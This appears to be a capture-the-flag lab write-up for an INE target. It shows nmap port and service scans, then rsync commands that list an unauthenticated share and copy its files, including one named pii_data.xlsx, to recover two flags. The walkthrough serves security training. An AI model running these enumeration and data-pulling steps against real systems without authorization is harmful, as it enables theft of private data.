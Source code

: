 # Domain info
*Domain*: `target1.ine.local`
*ip*: `192.114.228.3`

# flags
1) FLAG1_a1f0a17811fa4e86bdec6663f8c92114
2) FLAG2_10da4bfadf9b4be4a4356fbe0a301450
# Enumeration
## Port Scan
```shell
- sudo nmap --min-rate 1000 -p- target1.ine.local 

	PORT    STATE SERVICE
	873/tcp open  rsync
	MAC Address: 02:42:C0:72:E4:03 (Unknown)

```

## Service Scan

```shell
- sudo nmap -sS -sV -A -T4 -oX scan.xml target1.ine.local
	
	PORT    STATE SERVICE VERSION
	873/tcp open  rsync   (protocol version 31)
	MAC Address: 02:42:C0:72:E4:03 (Unknown)
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	Device type: general purpose
	Running: Linux 4.X|5.X
	OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
	OS details: Linux 4.15 - 5.8
	Network Distance: 1 hop

```




## rsync Enum
```shell
# got flag1
-rsync rsync://192.114.228.3
	backupwscohen   FLAG1_a1f0a17811fa4e86bdec6663f8c92114

# got flag2
- rsync rsync://192.114.228.3/backupwscohen/* /root/backupwscohen

- ls -la
	total 24
	drwxr-xr-x 2 root root 4096 May 13 13:00 .
	drwx------ 1 root root 4096 May 13 13:00 ..
	-rw-r--r-- 1 root root   25 May 13 13:00 office_staff.vhd
	-rw-r--r-- 1 root root   39 May 13 13:00 pii_data.xlsx
	-rw-r--r-- 1 root root   20 May 13 13:00 TPSData.txt

- cat pii_data.xlsx     
	FLAG2_10da4bfadf9b4be4a4356fbe0a301450

```